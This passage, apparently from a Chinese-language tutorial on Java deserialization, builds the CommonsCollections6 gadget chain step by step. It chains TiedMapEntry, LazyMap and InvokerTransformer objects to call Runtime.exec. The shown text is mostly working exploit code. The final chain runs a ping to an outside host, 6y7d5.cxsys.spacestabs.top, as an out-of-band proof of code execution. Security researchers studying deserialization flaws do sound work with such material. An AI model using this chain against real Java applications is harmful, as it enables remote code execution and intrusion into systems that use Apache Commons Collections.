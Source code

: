 ```java
                )
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> lazyMap = LazyMap.decorate(map, chainedTransformer);
        lazyMap.get(null);
    }
}
```

既然 AnnotationInvocationHandler 不再能用了，且这回不希望在 JDK 源码中找 gadget，就得继续去找哪个类有这种 xxx.get()的形式，且 xxx 能被控制。ysoserial 的作者在 CommonCollections 源码中找到了`org.apache.commons.collections.keyvalue.TiedMapEntry`这样一个类（这样就不受 JDK 版本的限制了），它的
getValue 方法中调用了`map.get(key)`如下-->

![alt text](image-98.png)

其中这个 map 是可以被控制的，现在改一下代码-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.util.HashMap;
import java.util.Map;

public class CommonCollections6 {
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
                )
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> lazyMap = LazyMap.decorate(map, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, null);
        tiedMapEntry.getValue();
    }
}
```
